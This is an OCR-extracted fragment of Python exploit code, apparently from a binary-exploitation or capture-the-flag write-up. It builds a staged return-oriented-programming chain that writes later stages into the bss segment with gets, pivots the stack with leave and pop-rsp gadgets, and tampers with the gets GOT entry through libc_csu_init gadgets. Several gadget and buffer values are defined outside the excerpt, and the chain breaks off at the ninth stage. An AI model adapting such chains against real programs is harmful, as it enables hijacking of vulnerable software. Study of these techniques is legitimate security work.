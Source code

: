 ```python
buf5 = bss - 0x500
buf6 = bss - 0x600
buf7 = bss - 0x700
buf8 = bss - 0x800

rop1 = [
	pop_rdi_ret, buf1, gets_plt, # rop2
	pop_rdi_ret, buf2, gets_plt, # rop4
	pop_rdi_ret, buf3, gets_plt, # rop5
	pop_rdi_ret, buf4, gets_plt, # rop7
	pop_rdi_ret, buf5, gets_plt, # rop9
	pop_rdi_ret, buf6, gets_plt, # rop10
	pop_rdi_ret, buf7, gets_plt, # rop13
	pop_rbp_ret, buf1 - 8, leave_ret
]

rop2 = [ # buf1
	pop_rdi_ret, gets_got + 24, gets_plt, # rop3
	pop_rbp_ret, buf2 - 8,
	pop_rsp_r13_r14_r15_ret, gets_got
]

rop3 = [ # gets_got + 24
	leave_ret
]

rop4 = [ # buf2
	libc_csu_init,
	pop_rbp_ret, buf3 - 8, leave_ret
]

rop5 = [ # buf3
	pop_rdi_ret, buf2 - 24, gets_plt, # rop6_1
	pop_rdi_ret, buf2 + 32, gets_plt, # rop6_2
	pop_rbp_ret, buf2 - 24 - 8, leave_ret
]

rop6_1 = [ # buf2 - 24
	pop_rbx_rbp_r12_r13_r14_r15_ret
]

rop6_2 = [ # buf2 + 32
	pop_rsi_r15_ret, offset, 8,
	add_ebx_esi_ret,
#	0xdeadbeef,
	libc_csu_init,
	pop_rbp_ret, buf4 - 8, leave_ret
]

rop7 = [ # buf4
	pop_rdi_ret, gets_got + 28, gets_plt, # rop8
	pop_rbp_ret, buf5 - 8,
	pop_rsp_r13_r14_r15_ret, gets_got + 4
]

rop8 = [ # gets_got + 28
	leave_ret
]

rop9 = [ # buf5
	libc_csu_init,
	pop_rbp_ret, buf6 - 8, leave_ret
]
```